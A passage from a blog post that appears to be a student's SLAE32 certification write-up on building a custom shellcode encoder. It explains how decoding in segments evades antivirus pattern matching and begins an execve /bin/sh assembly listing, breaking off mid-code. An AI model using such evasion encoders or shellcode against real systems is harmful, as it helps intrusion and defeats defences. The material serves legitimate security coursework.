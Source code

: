 ```yaml
---
layout: post
title:  "Slae32 Assignment #4"
date:   2017-12-08 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #4

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Create a custom encoding scheme like the "Insertion Encoder" we showed you 
* PoC with using execve-­‐stack as the shellcode to encode with your schema and execute

## Theoretical description

The incremental encoder works in such way that the decoded shellcode is never present at once in memory, but it's decoded backwards in bunch of a certain number of bytes (called segments) and then executed partially. At the end of execution the registers are preserved and the routine decodes the next bunch. In this way the common antiviruses based on pattern matching will find it very difficult to track such execution

## Implementation

The implementation starts with shellcode extraction for the execve-stack

### Opcode extraction

The already written assembler code that execute a shell (execve-stack) is the following

```
; Filename: execve-nasm.nasm
; Author:  SLAE-935
;
; Purpose: execute /bin/sh

global _start			

section .text

_start:

	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 
	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
```
